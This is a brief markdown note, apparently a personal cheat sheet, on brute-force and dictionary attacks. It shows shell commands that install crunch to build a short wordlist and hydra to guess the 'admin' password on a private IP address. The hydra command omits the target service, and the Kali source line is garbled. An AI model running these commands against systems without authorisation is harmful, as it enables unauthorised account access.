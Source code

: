 ### brute force & dictionary attacks
ˋˋˋsh

# sure kali source added
/etc/apt/source_list.d

# generate wordlist
apt install crunch

crunch 1 3 -o test.txt 


# brute attacks

apt install hydra

hydra 10.20.14.212 -l admin -P ./test.txt
ˋˋˋ
